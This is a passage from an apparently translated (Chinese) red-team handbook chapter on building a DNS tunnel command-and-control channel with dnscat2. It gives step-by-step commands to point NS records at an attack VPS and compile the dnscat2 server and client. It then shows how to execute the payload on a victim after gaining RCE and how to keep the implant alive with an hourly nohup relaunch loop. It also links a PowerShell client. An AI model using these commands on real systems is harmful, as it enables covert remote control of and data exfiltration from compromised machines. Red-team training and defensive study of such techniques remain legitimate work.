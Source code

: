 
![](img/chapter_1/1-11.png)

如上图所示，我们现在让我们的 NS 记录指向 ns1.loca1host.com 和 ns2.loca1host.com，它们都指向我们的攻击 VPS 服务器的 IP。 如果你尝试解析 loca1host.com 的任何子域（即 vpn.loca1host.com），它将尝试使用我们的 VPS 进行相关的域名解析。对我们来说幸运的是，dnscat2 在 UDP 端口53上监听并为我们做了所有繁重的工作。

接下来，我们将需要完全设置充当我们的自定义域名解析服务器的攻击服务器。初始化并设置 dnscat2 服务器：

```shell
sudo su -
apt-get update
apt-get install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
apt-get install gcc make
gem install bundler
bundle install
请测试确认以下脚本能够正常运行: ruby ./dnscat2.rb
备注: 如果你使用的是 Amazon Lightsail，请确保安全组设置中允许 UDP 端口53
```

对于客户端的代码，我们需要将其编译为 Linux 支持执行的二进制文件。

#### 编译客户端
```
git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client
cd /opt/dnscat2/client/
make
我们现在应该创建一个 dnscat 二进制文件！
(如果你在 windows 环境下编译，需要将 client/win32/dnscat2.vcproj 加载到 Visual Studio 并点击 “build” )
```

现在我们已经配置好了权威 DNS，我们的攻击服务器作为一个 DNS 服务器正在运行 dnscat2，并且我们已经编译了恶意软件。我们已经准备好在目标机器中执行我们的 payload。

在开始之前，我们需要在攻击服务器上启动 dnscat2。要启用多个配置，其中的主要配置是配置那个 `-secret` 标志来确保我们在 DNS 请求中的通信是加密的。另外，一定要更换我上面用于演示的 loca1host.com 域名，使用你自己拥有的域名并创建随机密钥字符串。

在你的攻击服务器中启用 dnscat2:
```
screen
ruby ./dnscat2.rb loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

假设你在易受攻击的服务器上有某种 RCE（远程命令执行漏洞）。 你可以运行 shell 命令并上传我们的 dnscat payload。执行 payload：
```
./dnscat loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

这将在目标机器中启动 dnscat，域名查询使用了我们自定义的的权威服务器，从而创建我们的 C2 通道。 我留意到一件事是有时 dnscat2 进程会莫名其妙挂掉。这可能来自大型文件传输或者只是程序崩了。为了规避这些类型的问题，我想确认我的 dnscat payload 有返回。为此，我通常喜欢使用快速 bash 脚本启动我的 dnscat payload：
```
nohup /bin/bash -c “while true; do /opt/dnscat2/client/dnscat loca1host.com -secret 9dfj3hdsfajh37e8c902j -max-retransmits 5; sleep 3600; done” > /dev/null 2>&1 &
```

这将确保如果客户端 payload 进程因任何原因而挂掉了，它将每小时生成一个新的实例。有时你只有一次机会来运行你的 payload，那么你需要让程序自己计数！
最后，如果你要在 Windows 上跑这个 payload，你可以编译使用 dnscat2 payload......或者，为什么不在 PowerShell 中执行此操作呢？！ Luke Baggett 写了一个关于 dnscat 客户端的 PowerShell 版本->[点此查看](https://github.com/lukebaggett/dnscat2-powershell)。
